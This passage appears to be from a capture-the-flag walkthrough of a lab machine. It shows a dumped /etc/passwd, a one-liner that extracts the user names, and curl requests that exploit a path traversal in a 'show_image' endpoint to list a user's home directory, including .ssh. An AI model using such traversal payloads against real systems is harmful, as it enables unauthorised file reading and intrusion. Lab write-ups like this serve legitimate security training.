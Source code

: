 ```
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

We can extract users form this file !
```
cat ./content/passwd | grep "bash" | awk -F ":" '{print $1}'
```

There are 3 users !
```
root
frank
phil
```

Let's find out our present working director !
```
curl -s -X GET "http://10.10.11.204:8080/show_image?img=blablabl" | jq
```

The return output is the following !
```
{
  "timestamp": "2023-07-09T15:47:24.801+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "message": "URL [file:/var/www/WebApp/src/main/uploads/blablabl] cannot be resolved in the file system for checking its content length",
  "path": "/show_image"
}
```
> This indicates that we are in the `/var/www/WebApp/src/main/uploads/` directory!


Let's delve into the `home` directory, starting with Frank
```
curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../home/frank"
```

In the output listing, there's a `.m2` directory
```
.bash_history
.bashrc
.cache
.gnupg
.local
.m2
.profile
.ssh
```
